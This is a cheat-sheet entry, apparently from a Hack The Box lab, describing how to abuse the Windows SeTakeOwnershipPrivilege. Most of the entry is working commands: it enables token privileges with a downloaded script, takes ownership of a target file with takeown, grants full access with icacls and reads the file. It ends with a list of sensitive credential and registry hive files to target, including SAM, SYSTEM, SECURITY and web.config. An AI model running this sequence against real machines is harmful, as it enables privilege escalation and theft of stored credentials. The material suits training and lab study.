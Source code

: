 ---
description: |
  This guide demonstrates how to enumerate and abuse the SeTakeOwnershipPrivilege on Windows to take ownership of files and read sensitive data. It covers enabling the privilege, identifying target files, taking ownership, modifying ACLs, and reading protected files. This is useful for privilege escalation and accessing restricted information.

  Command Reference:

      Target: Local Windows machine with SeTakeOwnershipPrivilege

command: |
  whoami /priv | findstr /i "SeTakeOwnershipPrivilege"

code: |
  # Enable SeTakeOwnershipPrivilege
    Import-Module .\Enable-Privilege.ps1
    .\EnableAllTokenPrivs.ps1
    whoami /priv

  # Choose a target file and check its owner
    Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

  # Check file ownership via CMD
    cmd /c dir /q 'C:\TakeOwn'
    
  # Take ownership of the file
    takeown /f 'C:\TakeOwn\flag.txt'

  # Confirm ownership change
    Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

  # Modify file ACL to grant full access
    icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F

  # Read the file
    cat 'C:\TakeOwn\flag.txt'

  # Other files of interest
    c:\inetpub\wwwwroot\web.config
    %WINDIR%\repair\sam
    %WINDIR%\repair\system
    %WINDIR%\repair\software, %WINDIR%\repair\security
    %WINDIR%\system32\config\SecEvent.Evt
    %WINDIR%\system32\config\default.sav
    %WINDIR%\system32\config\security.sav
    %WINDIR%\system32\config\software.sav
    %WINDIR%\system32\config\system.sav

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://www.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/token-privileges
  - https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1